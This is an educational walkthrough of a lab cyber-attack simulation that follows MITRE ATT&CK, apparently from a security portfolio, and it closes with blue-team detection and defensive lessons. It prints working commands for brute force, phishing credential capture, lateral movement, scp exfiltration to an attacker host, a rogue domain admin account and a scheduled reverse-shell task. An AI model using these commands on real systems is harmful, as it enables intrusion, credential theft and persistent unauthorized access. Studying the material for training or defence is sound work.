

# Attack Walkthrough — Cyber Attack Simulation

## Overview

This document walks through the full cyber attack simulation performed against the enterprise homelab environment. The attack follows the **MITRE ATT&CK framework** and progresses from initial reconnaissance through brute force, phishing, lateral movement, data exfiltration, and full domain persistence.

| | |
|---|---|
| **Target Network** | `10.0.0.0/24` — Enterprise Homelab |
| **Attacker Machine** | Kali Linux — `project-sp-attacker` (`10.0.0.9`) |
| **Corporate Server** | `10.0.0.8` — Ubuntu (SSH, MailHog SMTP) |
| **Linux Client** | `10.0.0.101` — Jane's Ubuntu Desktop |
| **Windows Workstation** | `10.0.0.100` — Windows 11 (WinRM 5985) |
| **Domain Controller** | `10.0.0.5` — Windows Server 2025 (AD, RDP 3389) |
| **Objective** | Data Exfiltration + Persistent Backdoor Access |

---

## Phase 1 — Reconnaissance

**MITRE ATT&CK:** `T1595` — Active Scanning  
**Objective:** Identify live hosts and services on the network.

Before launching any attack, the attacker maps the entire subnet to discover live hosts, then follows up with detailed per-host service scans to fingerprint running software and identify attack vectors.

### Host Discovery

```bash
nmap -sn 10.0.0.0/24
```



**Live hosts discovered:** `.1`, `.2`, `.5`, `.8`, `.9`, `.100`, `.101`

### Per-Host Service Enumeration

```bash
nmap -sV -sC 10.0.0.5    # Domain Controller
```


```bash
nmap -sV -sC 10.0.0.8    # Corporate Server
```


```bash
nmap -sV -sC 10.0.0.100  # Windows Workstation
```


```bash
nmap -sV -sC 10.0.0.101  # Linux Client (Jane)
```


**Key findings:**
- `10.0.0.5` — Domain Controller (DNS, Kerberos, LDAP, SMB, RDP)
- `10.0.0.8` — Corporate server with SSH exposed
- `10.0.0.100` — Windows workstation with WinRM open
- `10.0.0.101` — Linux client with SSH open

> **Tool — nmap:** Industry-standard open-source network mapper. Identifies live hosts, open ports, running service versions, and OS fingerprints.

---

## Phase 2 — Credential Access via Brute Force

**MITRE ATT&CK:** `T1110.001` — Brute Force: Password Guessing  
**Objective:** Obtain SSH credentials for the corporate server and Linux client.

With SSH running on both `10.0.0.8` and `10.0.0.101`, the attacker uses Hydra with the `rockyou.txt` wordlist (pre-installed on Kali, 14M+ passwords) to brute force the root account.

### Brute Force Corporate Server (10.0.0.8)

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.8
```


### Brute Force Linux Client (10.0.0.101)

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.101
```


**Result:** Password `november` is valid on both Linux hosts — a critical credential reuse vulnerability. The attacker SSH's into `10.0.0.8` and begins post-exploitation reconnaissance.

> **Tool — Hydra:** Password-cracking tool for brute-force attacks on network services. Automates testing millions of username/password combinations across SSH, WinRM, RDP, HTTP and more.

---

## Phase 3 — Initial Access via Phishing

**MITRE ATT&CK:** `T1566.002` — Phishing: Spear Phishing Link  
**Objective:** Trick a corporate user into submitting their credentials via a fake login page.

Inside the corporate server, the attacker discovers MailHog running on SMTP port 1025. Querying the MailHog API reveals the internal email address `janed@linux-client`, exposing a target user on the network.

### Setup the Phishing Site

The attacker deploys a fake "Verify Your Password" page on Apache that logs all submitted credentials to `creds.log`:

```bash
git clone https://github.com/collinsmc23/projectsecurity-e101
sudo touch /var/www/html/creds.log && sudo chmod 666 /var/www/html/creds.log
sudo service apache2 start
```


### Send the Phishing Email

Using the compromised corporate server as a trusted email relay, the attacker sends a spoofed "Update Password!" email impersonating the ProjectX Security Team:

```bash
# Run on corp server (10.0.0.8) via SSH session
sudo python3 send_email.py
```

The email warns of a suspicious login attempt and urges the victim to verify their credentials within 24 hours — a classic urgency manipulation technique.


### Credential Capture

Jane clicks the link and enters her real credentials into the fake page:


The attacker checks the credential log:

```bash
cat /var/www/html/creds.log
```


**Captured credentials:**

```
Username: jane         Password: @password123!
Username: amaryshchenko   Password: hello123
```

### SSH Access to Linux Client as Jane

```bash
ssh jane@10.0.0.101
```


---

## Phase 4 — Lateral Movement + Privilege Escalation

**MITRE ATT&CK:** `T1021.006` / `T1110.003` — WinRM / Password Spraying  
**Objective:** Move from the Linux Client to the Windows workstation using discovered credentials.

From the Linux Client, additional reconnaissance reveals WinRM ports (5985, 5986) open on `10.0.0.100`. NetExec is used to spray credentials and confirm admin access before establishing a full PowerShell shell.

### NetExec WinRM Password Spray

```bash
nxc winrm 10.0.0.100 -u users.txt -p pass.txt
```


> **Tool — NetExec (nxc):** Multi-protocol network exploitation tool. Tests credentials against SMB, WinRM, SSH, RDP, LDAP and more. `(Pwn3d!)` means the account has local admin privileges.

### Evil-WinRM Shell on Windows Workstation

```bash
evil-winrm -i 10.0.0.100 -u Administrator -p @Deeboodah1!
```


> **Tool — Evil-WinRM:** Open-source tool providing an interactive PowerShell shell over WinRM. Used for post-exploitation after valid credentials are obtained.

---

## Phase 5 — Lateral Movement 2.0 (Domain Controller)

**MITRE ATT&CK:** `T1021.001` — Remote Desktop Protocol  
**Objective:** Pivot from the Windows workstation to the Domain Controller.

With Administrator credentials confirmed on the workstation, the attacker identifies RDP (port 3389) open on `10.0.0.5`. The same Administrator credentials work across both hosts — a critical credential reuse misconfiguration.

### xfreerdp to Domain Controller

```bash
xfreerdp /u:Administrator /p:'@Deeboodah1!' /v:10.0.0.5
```


**Domain compromise achieved.** With full Administrator access to the Domain Controller the attacker can: create/delete any AD account, modify Group Policy Objects, dump the NTDS.dit database, and access every domain-joined machine.

---

## Phase 6 — Data Exfiltration

**MITRE ATT&CK:** `T1041` — Exfiltration Over C2 Channel  
**Objective:** Transfer sensitive production files from the DC to the attacker's machine.

Navigating the Domain Controller's file system via RDP, the attacker finds `C:\Users\Administrator\Documents\ProductionFiless\secrets.txt`. SCP is used to exfiltrate the file back to Kali.

```powershell
cd C:\Users\Administrator\Documents\ProductionFiless
scp ".\secrets.txt" kali@10.0.0.9:/home/kali/secrets.txt
```


---

## Phase 7 — Persistence

**MITRE ATT&CK:** `T1136.002` / `T1053.005` — Create Domain Account / Scheduled Task  
**Objective:** Ensure re-entry into the environment even after the breach is discovered.

Two independent persistence mechanisms are deployed: a rogue Domain Admin account and a scheduled PowerShell reverse shell task.

### Create Rogue Domain Admin Account

From a PowerShell terminal on the Domain Controller (via the RDP session):

```powershell
net user project-sp-user @mysecurepassword1! /add
net localgroup Administrators project-sp-user /add
net group "Domain Admins" project-sp-user /add
```


```powershell
net user project-sp-user /domain
```


### Deploy Reverse Shell via Python HTTP Server

To transfer the `reverse.ps1` backdoor script to the Domain Controller, the attacker hosts it from Kali:

```bash
cd /home/reverse-shell
python3 -m http.server 8000
```


The Domain Controller downloads the file by browsing to `http://10.0.0.9:8000` via the RDP session browser:


The file is saved to the persistence location:


### Create Scheduled Task

```powershell
schtasks /create /tn "PersistenceTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1" /sc daily /st 12:00
```


### Test the Reverse Shell

On Kali, open a Netcat listener:

```bash
nc -lvnp 4444
```

On the Domain Controller, bypass execution policy and trigger the script:

```powershell
Set-ExecutionPolicy Unrestricted -Scope Process
.\reverse.ps1
```

![PowerShell on DC executes reverse.ps1 — initial execution policy block shown, then bypassed — script runs with [R] Run once selection](screenshots/attack-simulation/scheduled_task_reverse_shell_3.png)


**Two backdoors are now active:**
- `project-sp-user` — Domain Admin account, survives Administrator password resets
- `PersistenceTask` — Daily reverse shell at 12:00 PM, survives reboots and patch cycles

---

## Phase 8 — Detection (Blue Team)

**Objective:** Identify what Wazuh detected throughout the attack chain.

### Wazuh Alerts Generated

| Alert | Rule ID | Severity |
|---|---|---|
| Multiple failed SSH/WinRM login attempts | 18152 | High |
| PowerShell execution detected | 92210 | High |
| WinRM connection established | 60010 | Medium |
| New admin account activity | 18104 | Medium |
| Lateral movement via SMB | 18118 | High |
| Scheduled task creation | 61140 | High |
| SCP file transfer detected | 5710 | Medium |

> **Note:** Individual alerts fired across every major attack phase. Without correlation rules or an analyst connecting the timeline, these appear as isolated events rather than a coordinated intrusion chain.

---

## Lessons Learned

### Attacker Perspective — What Made This Possible

- Weak, common passwords (`november`, `@Deeboodah1!`) enabled rapid brute force with publicly available wordlists
- Credential reuse across the corp server, workstation, and DC created a domino effect — one password compromised everything
- WinRM and RDP exposed on workstations provided multiple remote execution paths without needing any exploits
- Jane clicked the phishing link and submitted credentials without verifying the URL — social engineering bypassed all technical controls
- No MFA anywhere — compromised passwords were instantly usable for lateral movement
- Permissive PowerShell execution policies allowed unsigned scripts to run with minimal friction

### Defender Perspective — How to Prevent This

- Enforce strong password policies (min 16 characters, no dictionary words) and account lockout after 5 failed attempts
- Deploy MFA on all privileged accounts and remote access services (VPN, RDP, WinRM)
- Disable WinRM and RDP on standard workstations — restrict to servers with firewall rules
- Implement network segmentation — workstations should not directly reach the Domain Controller
- Enable PowerShell Script Block Logging (Event ID 4104) and Constrained Language Mode
- Alert on Event ID 4698 (scheduled task creation), 4720 (new user), 4728 (group membership change)
- Deploy phishing simulation training and enforce URL inspection on all email links
- Implement LAPS to prevent identical local admin passwords across machines
- Build SIEM correlation rules to chain brute force → lateral movement → privilege escalation → persistence into a single incident

---

*This attack was performed in a fully isolated lab environment for educational purposes only.*
